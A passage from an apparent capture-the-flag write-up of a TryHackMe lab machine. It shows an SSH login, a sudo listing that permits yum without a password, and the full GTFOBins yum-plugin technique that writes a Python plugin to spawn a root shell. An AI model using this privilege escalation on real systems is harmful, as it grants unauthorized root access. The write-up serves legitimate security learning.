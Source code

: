 {% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/thm/bugle]
└─$ ssh jjameson@10.10.167.104                  
jjameson@10.10.167.104's password: 
Last login: Tue Feb 18 09:26:04 2025
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
{% endraw %}

<br />
Check the GTFOBins for the yum.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/bugle/gtfobins.png" title="GTFO Bins" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Follow the steps in the GTFO Bins to escalate to root.

{% raw %}
```bash
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Failed to set locale, defaulting to C
Loaded plugins: y
No plugin match for: y
sh-4.2#
```
{% endraw %}
